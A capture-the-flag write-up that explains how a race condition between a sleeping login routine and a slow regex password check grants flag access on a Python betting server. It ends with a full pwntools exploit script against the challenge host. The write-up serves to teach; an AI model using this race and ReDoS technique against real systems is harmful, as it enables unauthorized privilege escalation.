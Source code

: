 # Off To The Races

> They say that gambling leads to regrets, but we'll see. This online portal lets you bet on horse races, and if you can guess the admin password, you can collect all the money people lose, too. Maybe you'll collect enough to buy the flag?

We have the python sourcecode of a gambling server. I'll pick out the important stuff here:
```python
def menu():
    print("1) Place Bet")
    print("2) Login as Admin")
```
As a normal user, we can place a bet or log in. Users do not have limited amount of money, we can just bet anything on any horse.
```python
def admin_menu():
    print("1) Declare winner")
    print("2) View balance")
    print("3) Buy flag for $100")
    print("4) Logout")
```
As the admin, we can declare the winner of a race, show the balance (of the racing company), buy the flag and logout. Those are our options. 

```python
rx = re.compile(r'ju(5)tn((([E3e])(v\4))+\4\5)+rl0\1\4')
```
Valid passwords are all those, that match this regex. For me it helped to write it down in multiple lines with intendations for a better readability. Passwords start with `ju5tn` (and `5` is the first matching group later refered to by `\1`. Then we have a character of the set `E3e` (group 4) followed by `v` and the same character again, because `\4` references the previously matched character. This 3-character-sequence is repeated a number of times. Then followes one time the sequence again (`\4\5`) and this combined part is repeated again several times. The password ends with `r105` and one time our favorite character again. `ju5tnEvEEvErl05E` is an example and it can be extended by adding more `EvE`in the middle.

```python
def flag():
    if admin.value:
        print("Admins aren't allowed to view the flag!")
        return
    if balance >= 100:
        print(open("flag.txt").read())
        exit(0)
    else:
        print("Insufficient balance!")
```
We get the flag if we are __not__ the admin, and we collected at least 100 money. The problem is, we can only call this as the admin user.
```python
def declareWinner():
    # [...shortened for clarity...]
    winner = choice(list(bets))
    print("%s is the big winner!"%winner)
    for i in bets:
        balance -= bets[i]*(-1+2*(winner==i))
    bets = {}
```
A winner is choosen randomly from the list of bets. The balance computation can be guessed what it does, but to be sure, let's dissect it:
`winner==i`is True (=1) for the winning horse, and False (=0) otherwise. So we get `balance -= bets[i]*1` for the winning horse (we (= the company) looses the money, otherwise `balance -= bets[i]*-1` equals `balance += bets[i]`, we win the money for losing horses.
### Winning Money
We designate one horse to loose and bet a lot of money on it. Additionally, we bet $0 on several other horses. The more horses we use, the higher are the chances for our designated horse to loose. (I used 10 horses giving me a chance of only 1/11 for my designated *LoosingHorse* to win, in which case I would simply restart the script.
(I realized from other Writeups after the contest: The better way to do this, would be betting the same amount `X` on 3 different horses. In this case, two of them loose, and one wins, so the total balance is `-2X + X = X`. No probability involved).
So, the easier part of the challenge is getting the money: Place bets, login as admin, declare a winner.
### Logging in
```python
def login():
    pwd = input("Enter admin password (empty to logout): ")
    if len(pwd) == 0:
        print("Logging out...")
        admin = 0
        return
    print("Validating...")
    Process(None, checkPass, None, args=(pwd,)).start()
    time.sleep(2)

def checkPass(pwd):
    valid = rx.match(pwd)
    if valid:
        print("Login success!")
        print("Redirecting...")
        admin.value = 1
    else:
        print("Login failure!")
        print("Redirecting...")
        admin.value = 0
```
This is the login part. `checkPass` matches the password with the regex and sets `admin.value` accordingly.
The magic happens in `login`: With `Process`, a new subprocess is spawed that checks the password, while the main process sleeps for 2 seconds before returning (and prints the menu again). A new thread in a challenge about *races* .. is it far to think about *Race Conditions*? 
### The Race
We can only call `flag()` while inside the `admin_menu()`, but inside `flag()`, we need `admin.value = 0`  to get the flag. So we need to somehow change our admin state between starting `admin_menu()` and the check for `admin.value = 0`. We do this by slowing down the `checkPass()` function. This can be achieved by a long password that is eventually invalid. Regex are slow, especially if we have to match complex strings. The number of `EvE` inside the password needs to be adapted to th speed of the checking hardware. I used 30 times.

### Winning the Race
Let's look at the flow of both process during a normal logout and a slow one:
![Race1](race1.svg)
![Race2](race2.svg)
In both cases, we start logged in as the admin user and start a logout. The main process will wait 2 seconds for the `checkPass()` to complete, which sets `admin.value` back to 0 if we use an invalid password (Note that Logout calls `login()`). After the two seconds sleep, we get the user menu and cannot do anything useful.
In the second case, we provide an invalid but long password. In this case, the sleep terminates faster than the `checkPass` function. As a result, the main process sees us as the admin and calls the `admin_menu`. And we wait .. and wait .. and wait .. *until* `checkPass` failed to validate our password and sets `admin.value = 0`. *Now*, we can call *Buy flag* (because the admin menu is still present) and we will get the flag because `admin.value` is false.
### Putting everything together
1. Place some bets
2. Login with ju5tnEvEEvErl05E
3. Declare a winner
4. Logout with ju5tnEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvEEvErl05X
5. We get the admin menu, but wait until the failure message is received
6. Buy the flag

```
from pwn import *
import sys
import time

p = remote("chal.imaginaryctf.org", 42016)

""" Select option opt """
def menu(opt):
	global p
	p.recvuntil(">>>")
	p.sendline(str(opt))

""" place a bet for the horse (including menu handling) """
def placebet(horse, value):
	menu(1)
	p.sendline(horse)
	p.sendline(str(value))

# Bet on horses
placebet("LoosingHorse", 1000)
for i in range(10):
	placebet("WinningHorse"+str(i), 0)

# Lets login
menu(2)
p.sendline("ju5tnEvEEvErl05E")
# Declare winner
menu(1)
w = p.recvuntil("===").decode()
if "LoosingHorse" in w:
	print("Sorry, we had bad luck. Just rerun the program")
	sys.exit(1)

# We have a balance of 1000 now, because our LoosingHorse lost
menu(4) # logout
# Check this password.
# It takes a few seconds to validate and failes in the end
# (Note the trailing 'X')
p.sendline("ju5tn" + ("EvE" * 30) * 1 + "rl05X")
# We should wait here for the message indicating that the check failed, but ..
# .. we are lazy and just wait some time
time.sleep(10)
# Buy the flag
menu(3)
print(p.recvrepeat(timeout=2))
```
